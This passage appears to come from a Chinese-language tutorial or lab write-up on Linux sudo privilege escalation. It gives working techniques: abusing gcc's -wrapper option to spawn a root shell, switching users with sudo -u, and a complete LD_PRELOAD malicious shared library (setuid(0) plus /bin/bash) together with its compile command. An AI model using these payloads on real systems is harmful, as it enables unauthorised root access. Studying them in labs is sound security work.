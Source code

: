 2. **提权**

如果二进制文件被允许以超级用户身份运行**sudo**，它不会放弃提升的特权，并可用于访问文件系统、升级或维护特权访问。
```bash
sudo gcc -wrapper /bin/bash, -s .
# -wrapper/-wrap 所有命令都在一个包装程序下运行，包括程序和它的参数用逗号分开。

# 使用 /bin/bash 作为包装脚本运行 gcc

# -s 是 wrapper 参数的参数 (bash 的参数): 这是一个选项，告诉包装程序从标准输入读取命令。
# -s 从当前面目录标准输入读取命令。使bash 读取到 EOF 时不会退出
# . gcc 编译当前目录
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1680756683983-5177a00f-7f1f-457c-b5b4-a7bf612bc424.png#averageHue=%23484a4f&clientId=u1f2a9243-7ecc-4&from=paste&height=190&id=u8222c6a1&originHeight=238&originWidth=604&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=73128&status=done&style=none&taskId=ufac78a4e-be54-4a45-befa-8481ef8f746&title=&width=483.2)
**提权成功！！！**
## 情景九 - 提权到高一级的用户
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1681049122725-30577e7d-469c-40ab-af29-319ef77e36a0.png#averageHue=%2326282d&clientId=ub373372b-a98d-4&from=paste&height=67&id=ud3dadb79&originHeight=84&originWidth=811&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=18631&status=done&style=none&taskId=u4425aff2-faee-4653-81e9-c326f2768dc&title=&width=648.8)
免密以**brexit**的身份执行 **/bin/bash, **sudo 默认是以** root **用户执行命令，以其他用户执行命令用 **-u **
```bash
sudo -u brexit /bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1681049501623-4e8c7841-5de3-4705-951e-7711d1a06de6.png#averageHue=%2326282d&clientId=ub373372b-a98d-4&from=paste&height=119&id=u078aaabf&originHeight=149&originWidth=1079&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=54149&status=done&style=none&taskId=u235b59c0-492a-450d-ae9b-c538942f3f2&title=&width=863.2)
提权到了更高级的用户。
## 情景十 - 环境变量与 C 共享库 提权
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1684152233001-fa954054-c89c-4960-97ea-2c4bb35320cc.png#averageHue=%23222435&clientId=u942ef117-22cd-4&from=paste&height=225&id=u6a225cb1&originHeight=281&originWidth=1063&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=220496&status=done&style=none&taskId=u4d9ddcf7-295b-490b-8076-6d3a74a29ad&title=&width=850.4)
> - **env_reset:    **linux 安全机制，执行命令时重置环境变量
> - **env_keep:    **保持原有环境变量，不进行重置
>    - **LD_PRELOAD**:  LinkerDynamic_Preload 预加载动态链接器
> - env_keep+=LD_PRELOAD （加载恶意共享库 提权）:   保持原有环境变量同时 预加载共享库
> - **mail_badpass:  **如果用户在使用 **sudo** 时输入了错误的密码，系统将发送一封电子邮件通知管理员或指定的收件人，以提醒其发生了一次无效的权限认证尝试

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


// _init() 函数在共享库被加载到进程的虚拟内存空间并准备使用时被调用。
// 可以用来执行一些初始化操作，例如设置全局变量、注册回调函数等。
void _init() {

    /* 它通过调用unsetenv函数来移除LD_PRELOAD环境变量。
    这样做是为了防止其他共享库被预加载。
    从而可能绕过一些安全机制*/
	unsetenv("LD_PRELOAD");

    /* 将有效用户ID（UID）和有效组ID（GID）设置为0，即root用户。
    这样做的目的是获取root用户的特权。 */
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```
生成位置无关的恶意共享库 作为 **Payload**
```bash
gcc -fPIC -shared shell.c -o shell.so -nostartfiles

# -fPIC Position Independent Code  生成位置无关代码
# -shared 指定生成链接库文件，不是可执行文件

# -nostartfiles 告诉GCC不要使用默认的启动文件。
```